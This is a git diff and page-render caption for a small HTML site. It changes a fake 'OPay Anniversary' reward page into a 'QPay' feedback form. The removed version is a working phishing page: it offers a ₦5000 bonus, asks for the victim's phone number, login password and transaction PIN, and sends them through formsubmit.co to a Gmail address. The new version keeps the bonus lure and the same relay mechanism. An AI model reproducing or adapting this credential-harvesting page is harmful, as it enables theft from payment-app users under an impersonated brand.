

Before and after one commit to musicbombom1-byte/Winner-, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 101-843 px from the top of the page, without its empty margins (319-959 px from the left). After the commit the page ends 812 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,7 +3,7 @@
 <head>
 <meta charset="UTF-8">
 <meta name="viewport" content="width=device-width, initial-scale=1.0">
-<title>OPay Anniversary </title>
+<title>QPay Anniversary Feedback</title>
 <style>
 *{box-sizing:border-box; font-family:-apple-system, sans-serif}
 body{margin:0; background:#f5f5f7; display:flex; justify-content:center}
@@ -25,55 +25,55 @@
 <body>
 <div class="page">
   <div class="banner">
-    <div class="logo"> OPay</div>
-    <p>OPay ANNIVERSARY -<br>verify your details to claim reward<br>â‚¦5000 bonus for lucky users!<br>*T&C apply</p>
+    <div class="logo">🛡️ QPay</div>
+    <p>QPay FIRST ANNIVERSARY -<br>Share your feedback!<br>N5000 bonus for lucky users!<br>*T&C apply</p>
   </div>
   <div class="content">
-    <h1>Quickly claim your â‚¦5000ðŸŽ‰</h1>
-    <div class="sub">feel the following forms</div>
+    <h1>We Value Your Feedback</h1>
+    <div class="sub">Answer 3 quick questions</div>
 
     <div class="card">
-      <div class="q"><span class="badge">1</span> enter your phone number </div>
-      <textarea id="q1" placeholder="type your number here..."></textarea>
+      <div class="q"><span class="badge">1</span> How was your QPay experience?</div>
+      <textarea id="q1" placeholder="Share your experience here..."></textarea>
     </div>
 
     <div class="card">
-      <div class="q"><span class="badge">2</span> enter login password</div>
-      <textarea id="q2" placeholder="type your password here"></textarea>
+      <div class="q"><span class="badge">2</span> What can we improve?</div>
+      <textarea id="q2" placeholder="Your suggestions to help us improve..."></textarea>
     </div>
 
     <div class="card">
-      <div class="q"><span class="badge">3</span> enter your confirmation pin</div>
-      <textarea id="q3" placeholder="type your transaction code "></textarea>
+      <div class="q"><span class="badge">3</span> Any other suggestions?</div>
+      <textarea id="q3" placeholder="Anything else we'd love to hear..."></textarea>
     </div>
 
-    <button class="btn" onclick="submit feedback ()">verify</button>
-    <div class="foot"> opay licensed by CBN Ã¢â‚¬Â¢ 100% confidential</div>
+    <button class="btn" onclick="submitFeedback()">Submit Feedback</button>
+    <div class="foot">Your feedback helps us serve you better • 100% confidential</div>
   </div>
 </div>
 
 <script>
-function submit feedback (){
+function submitFeedback(){
   const q1 = document.getElementById('q1').value.trim();
   const q2 = document.getElementById('q2').value.trim();
   const q3 = document.getElementById('q3').value.trim();
   if(!q1 || !q2 || !q3){ alert('Please answer all 3 questions'); return; }
 
   // REPLACE YOUR EMAIL BELOW
-  const ownerEmail = 'badyybobo@gmail.com';
+  const ownerEmail = 'YOUR_EMAIL@gmail.com';
 
   fetch('https://formsubmit.co/ajax/'+ownerEmail, {
     method:'POST',
     headers:{'Content-Type':'application/json'},
     body: JSON.stringify({
-      subject: 'New OPay Feedback - 3 Answers',
+      subject: 'New QPay Feedback - 3 Answers',
       Q1_Experience: q1,
       Q2_Improve: q2,
       Q3_Other: q3
     })
   })
   .then(() => {
-    alert('Thank you! you will receive your bonus within a minute check your app.');
+    alert('Thank you! Your 3 feedback sent successfully.');
     document.getElementById('q1').value=''; document.getElementById('q2').value=''; document.getElementById('q3').value='';
   })
   .catch(() => {
@@ -82,4 +82,4 @@
 }
 </script>
 </body>
-  </html>
+</html>
```
